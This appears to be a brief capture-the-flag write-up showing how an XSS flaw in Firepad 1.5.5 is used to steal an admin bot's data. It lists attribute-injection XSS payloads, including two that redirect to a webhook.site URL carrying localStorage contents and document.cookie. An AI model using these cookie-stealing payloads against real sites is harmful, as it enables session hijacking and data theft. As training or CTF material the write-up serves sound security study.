 Old software, good software:
Clone and pwn: https://github.com/FirebaseExtended/firepad

![Alt text](image-4.png)

firepad is a note taking app that can be embedded with other apps and uses firebase.
The service is running on version 1.5.5.

If we submit an image with a link to the webhook website we get a request from a chrome headless which is the admin. We need to leverage this to get some cookies:

![Alt text](image.png)

After trying xss payload the following ones get us XSS:

#" onmouseover="alert('xxs')"
#" onerror="alert('xxs')"

Lets try to read the admin pads:

#" onerror="document.location='https://webhook.site/f01debc3-c5e8-4a9f-ab8f-2189a1656cae?c='+localStorage.getItem('demo-pad-list');"

![Alt text](image-2.png)

Found only one and its the active one.
Lets try to read his cookie:

#" onerror="document.location='https://webhook.site/f01debc3-c5e8-4a9f-ab8f-2189a1656cae?c='+document.cookie;"

We get the flag in the cookie.

![Alt text](image-3.png)

